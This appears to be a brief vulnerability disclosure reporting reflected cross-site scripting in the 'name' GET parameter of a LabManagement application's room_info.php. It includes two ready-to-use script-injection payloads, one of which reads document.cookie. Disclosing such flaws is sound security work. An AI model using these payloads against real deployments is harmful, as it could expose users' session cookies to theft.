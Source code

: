 BUG_Author: LeoZhangCA

Vulnerability File: /LabManagement/views/room_info.php

GET parameter "name" exists reflected cross-site scripting vulnerability

Payload1:/LabManagement/views/room_info?name=<script>alert('xss')</script>&id=6

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/reflectedXSS1.png)

Payload2:/LabManagement/views/room_info?name=<script>alert(document.cookie)</script>&id=6

![image](https://github.com/LeozhangCA/CVEReport/blob/main/picture/reflectedXSS2.png)

